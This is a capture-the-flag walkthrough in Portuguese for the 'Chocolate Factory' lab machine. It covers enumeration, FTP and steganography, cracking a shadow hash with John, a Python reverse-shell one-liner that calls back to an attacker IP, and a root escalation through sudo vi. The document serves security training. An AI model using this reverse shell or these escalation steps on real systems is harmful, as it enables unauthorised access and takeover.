 # _**Chocolate Factory CTF**_
![](chocolate.jpg)

## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```

Também vamos fazer um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Content/commmon.txt
> ```
![](scan_gobuster.jpg)

O resultado do scan **Nmap** foi ENORME  
Vamos por partes:
* 21/tcp   open     ftp          vsftpd 3.0.3 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
* 22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
* 80/tcp   open     http         Apache httpd 2.4.29
* 100/tcp  open     newacct? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)
* 101/tcp  open     hostname? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)
* 102/tcp  open     iso-tsap? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)
* 103/tcp  open     gppitnp? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)

Este padrão se repete diversas vezes por diversas portas escaneadas  
Mas temos uma que chama a atenção:
* 113/tcp  open     ident? | http://localhost/key_rev_key <- You will find the key here!!!

Vamos investigar primeiro o serviço FTP, que permite login anonimamente  

![](ftp.jpg)

Extraindo o arquivo com ```get```  
Agora, vamos investigar o que tem nesse arquivo e tentar extrair com <mark>Steghide</mark>
> ```bash
> steghide extract -sf gum_room.jpg
> ```
![](steg_extract.jpg)

Dando um ```cat``` no arquivo extraído, temos uma longa _string_ do que parece ser base64  
Vamos usar o comando ```echo``` para decifrar
> ```bash
> echo '[string]' | base64 -d
> ```
![](b64.jpg)

## _**Ganhando acesso**_
Parece ser um longo arquvio _/etc/shadow_  
E temos uma string para _charlie_  
Vamos tentar quebrar com <mark>John</mark>  

![](john_result.jpg)

Sucesso!
Vamos tentar realizar login como _charlie_  

![](command.jpg)

## _**Escalando privilégios**_
Parece um painel que aceita comandos  
Vamos tentar alguns como:
* id
* pwd
* whoami
* python3 --version

![](python.jpg)

Python está presente
Podemos tentar obter um _reverse shell_ através de Python  
Vamos tentar:
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```

Pela dica, devemos usar python ao invés de python3
E sucesso!!!

![](shell.jpg)

Investigando, encontramos o seguinte:

![](charlie_ssh.jpg)

Vamos copiar para um arquivo com ```echo``` e realizar login via SSH como _**charlie**_

![](charlie_login.jpg)

Assim, podemos ter nossa primeira flag!!!

![](flag1.jpg)

Vamos continuar  
Agora, precisamos escalar privilégios na conta de _**Charlie**_
Vamos começar com ```sudo -l```

![](sudo_.jpg)

Esta frase, eu já vi em um outro CTF, porém, ao invés de **vi**, era **vim**
_'(ALL : !root) NOPASSWD: /usr/bin/vi'_  
Como **vi** é um editor de texto que aceita comandos, vamos tentar: sudo /usr/bin/vi -c ':!/bin/bash'  

![](root.jpg)

E temos root!!!
Agora, temos que buscar a flag em um arquivo .py do qual executando, requisita uma chave  
Precisamos encontrá-la  
Acredito ser o arquivo <mark>key_rev_key</mark>  
Vamos executar os seguintes comandos abaixo
> ```bash
> chmod +x key_rev_key
> ./key_rev_key

Precisamos de um nome...  

![](name.jpg)

Ao invés de buscar o nome, vamos tentar <mark>strings</mark>

![](strings.jpg)

Parece que temos resultado  
Vamos tentar com o achado  

![](endgame.jpg)
